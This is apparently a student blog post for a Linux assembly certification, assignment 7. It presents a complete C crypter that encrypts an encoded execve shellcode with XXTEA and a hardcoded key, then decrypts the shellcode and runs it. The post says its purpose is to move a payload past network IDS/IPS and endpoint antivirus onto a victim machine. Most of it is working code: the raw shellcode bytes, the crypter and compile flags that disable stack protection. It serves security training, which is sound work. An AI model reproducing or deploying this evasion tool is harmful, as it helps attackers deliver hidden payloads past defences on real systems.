

# Assignment 7

* Create a custom crypter like the one shown in the "crypters" video
* Free to use any encryption schema 
* Can use any programming language

## Execution

If encoding a shellcode minimizes the surface fingerprintable, a crypter can do more, in fact, the whole shellcode get encrypted (also the encoding routine if any). The use of a crypter is very useful in those scenario where an executable has to land to the victim machine passing through network analysis (IPS/IDS) or endpoint antivirus.

When talking about shellcode, size does matter, thus I looked for a very small encryption algorithm. I decided to go for XXTEA that is an improvement of the TEA algorithm (<https://en.wikipedia.org/wiki/XXTEA>).

The following is the crypter/decrypter implemented; note that:

1. The shellcode used is the execve shellcode encoded in the assignment 4;
2. The key is hardcoded.

Obviously, the encryption and decryption routine in a real case scenario are separated, but for clarity and testing purpose it was decided to have a unique executable for both phases.

```c
/*
// Author: Alessio Parzian
// Filename: shellcode_crypter.c
//
// Encrypt a shellcode using the XXTEA algorithm: https://github.com/xxtea/xxtea-c
// Compile with:
// 	gcc -fno-stack-protector -z execstack shellcode_crypter.c -o shellcode_crypter
*/

#include <stdio.h>
#include <string.h>
#include "xxtea.c"

#define SHELLCODELENGTH 103

unsigned char* shellcode = "\xeb\x2d\x5e\x31\xdb\x31\xc9\x31\xd2\xb1\x32\x8a\x1e\x80\xf3\xbb\x80\xe3\xff\x8a\x16\x80\xf2\xbb\x80\xe2\xff\xc0\xc3\x02\x80\xe3\xff\xc0\xca\x06\x20\xd3\xf6\xd3\x88\x1e\x46\xe2\xde\xeb\x05\xe8\xce\xff\xff\xff\xbe\xc2\xd3\x08\xb2\x66\xd3\x06\x26\xd9\xc6\x26\xd3\xc7\x27\xc3\x27\xd7\xc6\x27\xd1\xc7\x08\x74\x68\x86\x37\x64\x7e\x3c\xbb\xbb\xbb\x8f\xdc\x1e\xdf\x8f\xdc\x1c\x98\x5e\x14\xd4\xd4\xd4\xd4\x94\x94\x94\x94";
char* key = "w00tw00tw00tw00t";

int main() {
    size_t len;
    unsigned char *encrypt_data = xxtea_encrypt(shellcode, strlen(shellcode), key, &len);
    printf("======================\n");
    printf("Shellcode encrypted:\n");
    printf("======================\n");
    for (int i = 0; i < strlen(encrypt_data); i++)
    {
        printf("\\0x%02x", encrypt_data[i]);
    }
    printf("\n");

    
    printf("----------------------\n");
    unsigned char *decrypt_data = xxtea_decrypt(encrypt_data, len, key, &len);
    if (strncmp(shellcode, decrypt_data, len) == 0) {
        printf("Encryption success!\n");
    }
    else {
        printf("Encryption fail!\n");
    }
    printf("======================\n");

    printf("======================\n");
    printf("Shellcode decrypted:\n");
    printf("======================\n");
    unsigned char shellcode_decrypted[SHELLCODELENGTH];
	for(int i = 0; i < SHELLCODELENGTH; i++)
	{
    	shellcode_decrypted[i] = decrypt_data[i];
    	printf("\\0x%02x", decrypt_data[i]);
	}
    printf("\n======================\n");

    free(encrypt_data);
    free(decrypt_data);

    printf("Running Shell..\n\n");
    void(*shell)(void) = (void(*)(void))shellcode_decrypted;
    shell();

    return 0;
}
```

The output of the above executable is shown in the following figure.



Well, this concludes assignment 7!

<br/>

---

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.*

<http://securitytube-training.com/online-courses/security-tube-linux-assembly-expert>

*Student-ID: PA-8733*